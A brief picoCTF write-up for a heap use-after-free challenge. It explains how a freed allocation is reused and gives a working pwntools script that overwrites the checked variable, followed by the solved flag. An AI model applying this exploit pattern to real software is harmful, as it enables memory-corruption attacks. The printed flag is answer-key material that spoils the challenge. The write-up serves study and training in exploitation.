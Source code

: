 ```yaml
---
created: 2024-08-08T00:05
updated: 2024-08-08T00:19
---
```


> freed but still in use
> now memory untracked
> do you smell the bug?

`malloc` will return the same address if the previous address was freed.

But `check_win` still uses the same address of `x` to check for win.

We can simply overwrite the data at `x` by liberating it and allocating a new object over there.

```python
from pwn import *
s = remote("tethys.picoctf.net", 60691)
s.sendlineafter(b": ", b"5")
s.sendlineafter(b": ", b"2")
s.sendlineafter(b": ", b"35")
s.sendlineafter(b": ", b"a"*30+b'pico')
s.sendlineafter(b": ", b"4")
info(s.recvall())
```

```flag
picoCTF{now_thats_free_real_estate_79173b73}
```

> Fun fact, size 40 also works.
